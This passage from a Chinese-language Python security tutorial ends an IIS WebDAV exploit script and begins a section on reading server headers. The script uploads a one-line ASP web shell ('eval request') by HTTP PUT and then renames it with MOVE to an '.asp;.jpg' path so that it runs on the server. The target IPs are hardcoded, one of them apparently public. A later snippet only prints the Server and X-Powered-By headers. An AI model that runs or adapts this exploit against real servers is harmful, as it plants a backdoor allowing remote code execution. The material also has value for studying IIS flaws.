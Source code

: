 ```python
    # GET
    resp = get_response(url)
    # print_status_and_headers(resp)
    check_iis_version(resp)

    # OPTIONS
    resp = options_response(url)
    # print_options_headers(resp)
    check_put_move_vulnerability(resp)

    headers = {
        "Host": "219.153.49.228:43068",
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:56.0) Gecko/20100101 Firefox/56.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "close",
        "Content-Length": "25"
    }

    # PUT
    target_url = "http://192.168.70.6"
    target_file = "/index.txt"
    url = target_url + target_file
    payload = "<% eval request(\"mima\") %>"

    put_file(url, headers, payload)

    # MOVE
    headers["Destination"] = "/index.asp;.jpg"

    move_file(url, headers, payload)


if __name__ == "__main__":
    main()

```



### **九、Python获取HTTP服务器信息**

#### **1.获取中间件信息**

本节将以IIS和Apache为例，⾸先，我们打开对应的服务器（Windows server 2003）。

⾸先开启了`IIS`，并且查看⼀下⽬标的IP地址，可以看到他的IP地址是192.168.3.115.

下⾯进⾏编写代码，来获取⽬标服务器的中间件信息。

```python
#server_info.py
import requests
url = 'http://192.168.70.6:8080'
resp = requests.get(url)
print(resp.headers)
# IIS PUT漏洞
# print("服务器中间件为：%s" % resp.headers["Server"])
# print("程序脚本语⾔为：%s" % resp.headers["X-Powered-by"])
print("服务器中间件采⽤技术为：%s" % resp.headers["Server"])
print("应⽤程序脚本语⾔为：%s" % resp.headers["X-Powered-by"])
```
